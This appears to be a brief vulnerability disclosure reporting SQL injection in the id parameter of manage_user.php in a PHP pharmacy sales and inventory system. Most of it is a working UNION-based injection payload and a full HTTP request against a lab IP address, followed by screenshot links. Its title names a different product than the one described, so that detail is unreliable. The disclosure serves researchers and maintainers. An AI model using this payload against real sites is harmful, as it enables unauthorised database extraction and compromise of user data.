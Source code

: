# Merchandise Online Store v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html

Vulnerability File: /pharmacy-sales-and-inventory-system/manage_user.php?id=

Vulnerability location: ip/pharmacy-sales-and-inventory-system/manage_user.php?id=, id

[+] Payload: /pharmacy-sales-and-inventory-system/manage_user.php?id=-1+UNION+ALL+SELECT+NULL,GROUP_CONCAT(database()),NULL,NULL,NULL--  // Leak place ---> id

```sql
GET /pharmacy-sales-and-inventory-system/manage_user.php?id=-1+UNION+ALL+SELECT+NULL,GROUP_CONCAT(database()),NULL,NULL,NULL-- HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=4k3d5u023qn0eacroobson4prq
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167059525-2af037b2-b0c1-4494-a05f-95d1c8cca062.png)

![image](https://user-images.githubusercontent.com/54017627/167059428-d903e9a2-84de-4454-8276-9712b7547882.png)
